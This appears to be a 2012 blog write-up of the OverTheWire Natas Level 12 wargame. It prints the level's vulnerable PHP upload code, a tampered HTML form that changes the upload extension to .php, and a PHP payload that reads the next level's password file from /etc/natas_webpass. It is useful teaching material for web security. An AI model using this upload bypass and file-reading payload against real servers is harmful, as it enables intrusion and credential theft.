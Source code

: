 ```yaml
---
layout: post
title: "OverTheWire Natas Level 12"
date: 2012-11-11T06:27:00-05:00
comments: true
categories:
 - overthewire
 - wargames
 - natas
 - php
 - hacking
---
```


The next level to attack in the [OverTheWire](http://www.overthewire.org) Natas wargame, is [Level 12](http://www.overthewire.org/wargames/natas/natas12.shtml), which is more "real-world" as well, since developers often forget to limit file extensions.

<!-- more -->

It starts out giving you the option to upload a <1KB file to the server.

{% img /images/natas12_1.png %}

As with any other challenge, I viewed the source, to analyze it. 

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas12</h1> 
<div id="content"> 
<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

The filename of the uploaded file is a randomly generated .jpg file, based on the hidden input in the HTML. To change that, there are a few ways, but I simply did the old-school method of saving the HTML to my desktop, and modifying it, since there was no code to verify the HTTP Referer. I made the code read:

```
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas12</h1>
<div id="content">

<form enctype="multipart/form-data" action="http://natas12.natas.labs.overthewire.org/index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="hostess.php" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

I had really only changed the filename to be a .php extension, since it will still be randomly assigned a filename, but keep the extension. The other change was simply to make it submit to the full URL of the site.

I then opened up the HTML file in my browser, and selected a PHP file that I had made just for this level. It simply reads the password file for the next level, and prints it to the screen. The code for it is as follows: 

```
<?php
$file = file_get_contents('/etc/natas_webpass/natas13');
echo $file;
?>
```

{% img /images/natas12_2.png %}

Once that uploaded, it gave me a link to the newly uploaded file.

{% img /images/natas12_3.png %}

Once the newly uploaded file executed, it wrote out the contents of the next level's password.

{% img /images/natas12_4.png %}
